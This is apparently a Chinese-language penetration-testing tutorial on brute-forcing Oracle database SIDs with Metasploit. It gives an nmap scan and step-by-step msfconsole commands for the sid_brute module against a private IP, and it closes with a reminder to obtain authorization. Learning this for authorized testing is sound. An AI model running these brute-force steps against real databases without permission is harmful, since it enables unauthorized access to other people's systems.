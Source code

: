 # 原创
：  8-2 MSF暴力破解SID和检测Oracle漏洞

# 8-2 MSF暴力破解SID和检测Oracle漏洞

#### 暴力破解SID

        当我们发现 Oracle 数据库的 1521 端口时，我们可能考虑使用爆破 SID（System Identifier）来进行进一步的探测和认证。在 Oracle 中，SID 是一个数据库的唯一标识符。当用户希望远程连接 Oracle 数据库时，需要了解以下几个要素：SID、用户名、密码以及服务器的 IP 地址。

```
nmap 192.168.0.100
```

接下来，我们可以使用 Metasploit 框架 (msf) 提供的 sid brute 模块进行暴力破解。具体步骤如下：

1）使用 Metasploit 的命令行界面或控制台。

```
msfconsole
```

2）选择 auxiliary/admin/oracle/sid_brute 模块：

```
use auxiliary/admin/oracle/sid_brute
```

3）查看可配置选项。

```
show options
```

4）设置目标主机的 IP 地址。

```
set RHOSTS 192.168.0.100
```

5）运行模块，开始暴力破解过程。

```
run
```

请注意，在进行任何安全测试之前，请确保已经获得合法的授权，并且仅限于您拥有权限的系统。此外，强烈建议在测试中遵循道德规范和法律准则
